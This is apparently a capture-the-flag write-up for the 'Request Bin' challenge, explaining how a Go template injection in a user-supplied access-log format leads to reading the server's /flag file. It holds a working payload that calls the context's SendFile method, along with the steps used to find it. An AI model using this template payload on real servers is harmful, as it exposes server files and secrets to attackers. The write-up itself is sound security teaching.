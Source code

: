 # Request Bin

The challenge starts with a simple page where you can insert your custom format for your access.log output.
Each time you submit a format template, it will generate a custom endpoint for your request where you can see your format in action.

Such an endpoint looks like this: `/logs/jscEcebayJ`

The exploit exists in the Golang templating, which results in a classic SSTI. It is not as powerful as a
python-flask SSTI but it can be used if the right variables are passed to our template.

A normal template looks like this in golang:

```go
data := struct {
    Title string
}{"test title"}
et, err := template.New("example").Parse("<h1>{{ .Title }}</h1>")
if err != nil {
    panic(err)
}
err = et.Execute(os.Stdout, data)
```

Which will print `<h1>test title</h1>`. So far nothing new, we can access variables which we pass to the templating mechanism.
But the go templates can go even further, it's possible to call public functions of the passed variable struct.

A public function can be detected by the first character in the name of the function. If it's uppercase, it's public. If it's lowercase, it's private.
A function for a struct can be found in the following format:

```golang
type Example struct {
    Title string
}
func (rp *Example) TestPublicFunction() {

}
func (rp *Example) testPrivateFunction() {

}
```

But there are some limitations to the calling of such functions. The function needs to fit specific criteria.
It needs to return one value and an optional error. Example, what is possible:

```golang
type Example struct {
    Title string
}

func (rp *Example) TestPublicFunction()  { // Not Possible
    ...
}
func (rp *Example) TestPublicFunction() error { // Possible
    ...
}
func (rp *Example) TestPublicFunction() int { // Possible
    ...
}
func (rp *Example) TestPublicFunction() (int, error) { // Possible
    ...
}
func (rp *Example) TestPublicFunction() (int, int, error) { // Not Possible
    ...
}
```

After it is clear what is in the scope, we need to find out what object/struct is passed to the templating.
We found out to run it locally and try a variable argument which can't exist.

```html
{{ .PwnProphecy1234 }}
```

And we will see in our logs that we got the following error:

```
accesslog: template: :1:3: executing "" at <.PwnProphecy1234>: can't evaluate field PwnProphecy1234 in type *accesslog.Log
```

So we know that we have the struct `accesslog.Log` in front of us.
Now let's see what variables and functions are around.

Variables:
```
	Logger *AccessLog `json:"-" yaml:"-" toml:"-"`
	Now time.Time `json:"-" yaml:"-" toml:"-"`
	TimeFormat string `json:"-" yaml:"-" toml:"-"`
	Timestamp int64 `json:"timestamp" csv:"timestamp"`
	Latency time.Duration `json:"latency" csv:"latency"`
	Code int `json:"code" csv:"code"`
	Method string `json:"method" csv:"method"`
	Path   string `json:"path" csv:"path"`
	IP string `json:"ip,omitempty" csv:"ip,omitempty"`
	Query []memstore.StringEntry `json:"query,omitempty" csv:"query,omitempty"`
	PathParams memstore.Store `json:"params,omitempty" csv:"params,omitempty"`
	Fields memstore.Store `json:"fields,omitempty" csv:"fields,omitempty"`
	Request  string `json:"request,omitempty" csv:"request,omitempty"`
	Response string `json:"response,omitempty" csv:"response,omitempty"`
	BytesReceived int `json:"bytes_received,omitempty" csv:"bytes_received,omitempty"`
	BytesSent     int `json:"bytes_sent,omitempty" csv:"bytes_sent,omitempty"`
	Ctx *context.Context `json:"-" yaml:"-" toml:"-"`
```

Functions:
```
func (l *Log) Clone() Log
func (l *Log) RequestValuesLine() string
func (l *Log) BytesReceivedLine() string
func (l *Log) BytesSentLine() string
```

After a brief experiment, we can see that most variable types have no effect; strings, ints, and so on.
The list of functions is also not useful, so we concentrate on the variables and their functions.

After a reduction of the variables, we have the following left:

```
	Logger *AccessLog `json:"-" yaml:"-" toml:"-"`
	Query []memstore.StringEntry `json:"query,omitempty" csv:"query,omitempty"`
	PathParams memstore.Store `json:"params,omitempty" csv:"params,omitempty"`
	Fields memstore.Store `json:"fields,omitempty" csv:"fields,omitempty"`
	Ctx *context.Context `json:"-" yaml:"-" toml:"-"`
```

Now the time-consuming task was to iterate over the types and find out what functions and variables they contained.
To reduce the size of the writeup, we can say we reduced the possibility of an attack to the following struct:

```
Ctx *context.Context
```

This variable/struct contains a function:

```
func (ctx *Context) SendFile(src string, destName string) error
```

which is used to send a file from the server to the client. This can be used to extract the flag.

We can build it in our Golang template once we know the entire call path `Ctx-> SendFile`.

```
{{ .Ctx.SendFile "/flag" "result.txt"}}
```

When we put that into the form and submit it, we get a download of /flag which contains the flag according to the dockerimage:

```
<nil>we{f3ae92c8-0d8d-4072-ae37-ca3717842238@N3verTh0ughtG0HA3Tmp1Injec=t19n}
```
